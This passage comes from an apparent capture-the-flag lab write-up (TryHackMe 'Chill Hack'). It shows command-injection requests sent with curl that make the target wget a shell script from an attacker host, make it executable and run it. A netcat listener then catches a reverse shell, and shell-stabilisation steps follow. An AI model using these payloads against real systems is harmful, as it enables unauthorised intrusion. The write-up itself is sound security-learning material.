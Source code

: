 ## reverse shell

on my machine i started a webserver,

```shell
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

and download the shell on the victim.

```shell
$ curl -L -d "command=wget -O /tmp/shell.sh http://<attacker-ip>/shell.sh" http://chillhack.thm/secret/
```

i had so set the the permissions numeric because `+x` was not working.

```shell
$ curl -L -d "command=chmod 777 /tmp/shell.sh" http://chillhack.thm/secret/
```

the i double checked the permissions via the `stat` which was not filtered.

```shell
$ curl -L -d "command=stat -c %A /tmp/shell.sh" http://chillhack.thm/secret/

<h2 style="color:blue;">-rwxrwxrwx
```

i launched the script and got a reverse shell on my kali box.

```shell
$ curl -L -d "command=/tmp/shell.sh" http://chillhack.thm/secret/
```

```shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.1.199] from (UNKNOWN) [10.10.55.124] 54700
bash: cannot set terminal process group (1066): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/secret$
```

stabilize shell

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm

CTRL + Z
stty raw -echo; fg
```

## getting first user and user flag
